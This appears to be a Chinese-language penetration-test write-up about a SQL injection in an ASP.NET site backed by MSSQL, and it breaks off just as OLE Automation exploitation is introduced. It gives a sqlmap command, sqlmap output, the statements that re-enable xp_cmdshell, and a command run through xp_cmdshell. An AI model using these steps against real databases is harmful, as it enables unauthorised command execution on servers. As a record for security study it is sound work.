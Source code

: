 ```yaml
---
categories: 招聘
date: "2019-07-19T00:00:00Z"
description: 某次项目技术点实录-Regsvr32 ole对象
title: Regsvr32 ole对象
url: /archivers/2019-07-19/1
---
```


# 某次项目技术点实录-Regsvr32 ole对象

**由于环境都无法进行演示，目前取得都是历史留存的截图**

## 突破口

一开始是一个外网的SQL注入，通过sqlmap正常操作，得知是DBA权限，数据库：MSSQL

```
sqlmap.py -u "http://xxx.com/xxx/xxx.aspx?yum=xx&xx=xx" -p yhm --random-agent --cookie='ASP.NET_SessionId=xxxx'
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-13-57-49.png)

直接通过`--os-shell`来执行命令：

```
[18:39:23] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] Y
[18:39:25] [WARNING] xp_cmdshell re-enabling failed
```

### 启用xp_cmdshell

手动启动语句：

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

执行：

```
exec master..xp_cmdshell "whoami"
```

### 启用OLE Automation

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-15-19-48.png)


通过启用xp_cmdshell失败，sqlmap还会尝试`sp_OACreate`，`sp_OACreate`这个方式是不带回显的，通常利用语句如下：
